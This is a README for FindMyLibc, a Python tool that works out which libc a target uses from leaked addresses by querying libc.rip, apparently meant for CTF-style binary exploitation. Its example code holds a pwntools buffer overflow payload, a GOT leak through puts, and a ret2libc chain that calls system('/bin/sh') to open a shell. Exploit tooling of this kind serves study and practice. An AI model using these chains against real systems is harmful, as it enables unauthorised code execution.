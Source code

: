 # FindMyLibc
You're exploiting a binary, you've found an address leak, now you need the libc version  
and most importantly, the addresses of symbols like `system` and `str_bin_sh`.

**This tool is the easiest to setup & use!**  
The shortest path to victory 🏆

## Disclaimer
This was tested only on 32-bit binary, so it might not work properly on 64-bit binaries.  
Would be updated!

# Setup
```
pip install findmylibc
```  
Then use easily:  
```
from findmylibc import *
...
matching_libc = find_libc(elf, leak_libc_address)
```    

See below the example.

# Example
Here's a simple example of exploit script (see [`./example.py`](https://github.com/omrina/FindMyLibc/blob/main/example.py)).

### Setup your binary exploit script:
Whatever you need...
```
from pwn import *
from FindMyLibc import *

# Setup your binary
elf = ELF("./elf_name")
host = args.HOST or 'localhost'
port = int(args.PORT or 5555)
io = connect(host, port)
```

### We need to set up a "leak address" function:

```
# Payload until right before the return address
payload = b'A' * 512 + b'BBBBCCCCDDDD'

# Example function that gets a symbol name and leaks its address from the binary
def leak_libc_address(symbol_name):
    libc_symbol_address = elf.got[symbol_name]
    puts = elf.symbols["puts"]

    io.recvline()
    io.send(payload + p32(puts) + p32(libc_symbol_address))
    received = io.recv()

    return u64(received.ljust(8, b"\x00"))
```
### Now the real deal:
```
# call `find_libc`, it returns a list of matching libc candidates.
matching_libc = find_libc(elf, leak_libc_address)
chosen_libc = matching_libc[0]

# Each libc candidate comes with the attribute of `base_address`
print("libc base_address at: %s " % hex(chosen_libc['base_address']))

# Everything you need is probably in `syms`,
# a dictionary of ALL the libc symbols: {symbol: calculated_address}
binsh_address = chosen_libc['syms']['str_bin_sh']
system_address = chosen_libc['syms']['system']
print("/bin/sh at: %s" % hex(binsh_address))
print("system at: %s " % hex(system_address))
```

The output from `./example.py`:

![image](https://github.com/user-attachments/assets/dfd95d72-e202-4d59-9e44-fcfd4d01eccd)


What is `chosen_lib`:

![image](https://github.com/user-attachments/assets/06ff78eb-f59b-4ba6-b199-079e0e091781)

### How do we use the results:
You would probably need only `syms`, each value is the integer of the calcualted address, so you can use it like:
```
shell_rop = p32(system_address) + b'EEEE' + p32(binsh_address)
io.send(payload + shell_rop)
io.interactive()
```

# How does it work?
The finder leaks the address of common symbols:  
`_common_symbols_to_leak = ['__libc_start_main', 'puts', 'printf', 'gets', 'read', 'write', 'send', 'recv']`  
Then it makes reqeusts to the public `https://libc.rip/api/find'`, with different combination of leaked symbols every time.  

E.g.- we send a request with `{'puts': 'leaked-address-of-puts', 'gets': 'leaked-address-of-gets'}`.  
A response would be a list of matching libc versions metadata (each item is like a part of `chosen_lib` seen earlier).

## The `stop_libs_amount` argument
The `find_libc` function has a `stop_libs_amount` argument with default of `3`,  
meaning- if we reach 3 matching libc versions, it's enough and we stop searching.  

You can change it if you'd like to:  
`matching_libc = find_libc(elf, leak_libc_address, stop_libs_amount=2)`


